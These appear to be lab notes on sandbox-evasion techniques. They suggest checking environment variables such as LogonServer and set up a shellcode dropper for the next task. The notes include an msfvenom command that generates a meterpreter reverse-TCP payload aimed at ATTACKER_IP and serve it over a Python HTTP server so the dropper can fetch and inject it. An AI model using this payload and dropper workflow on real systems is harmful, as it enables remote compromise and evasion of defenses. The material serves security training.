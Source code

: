 These techniques can vary in difficulty; therefore, you should consider how much time and effort you want to spend building out these evasion methods. A simple method, such as checking the systems environment variables (this can be done withÂ **echo %VARIABLE%**Â or to display all variables, use theÂ **set**Â command) for an item like the LogonServer, LogonUserSid, or LogonDomain may be much easier than implementing a WindowsÂ API.

## Setting the Stage  

Now that you have a better understanding of what Sandbox Bypass method types exist, we will take it to the next step and implement some of the Sandbox Bypasses in the next task.

Before we move on to the next task, we're going to be starting with a basic dropper that retrieves shellcode from a Web Server (specifically from /index.raw) and injects it into memory, and executes the shellcode. It's important to note that all shellcode must be generated with MSFVenom in a raw format, and must be 64-bit, not 32-bit. It can be generated with the following command.

```shell-session
user@attack-box$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw
user@attack-box$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.212 - - [20/Mar/2022 22:04:22] "GET /index.raw HTTP/1.1" 200 -
```

The shellcode should then be hosted on the AttackBox via anyÂ HTTPÂ Server. Python3'sÂ http.server module is highly portable and flexible and will serve as a good base for this task. In the real world, you may host your shellcode on yourÂ C2Â server. For the purposes of the lab, we will be utilizing the Attackbox with noÂ C2Â server.

The code attached to this task has been tested and compiled using Visual Studio 2019 (or above). Download the dropper.cpp, and open it.Â It's important to note that there are several placeholder values on lines 16, 22, 24, 27, and 33 that you must update to make the code function properly. Once you have altered the values, compile the code for a 64-bit release.

![Pasted image 20250523150129.png](../../../IMAGES/Pasted%20image%2020250523150129.png)
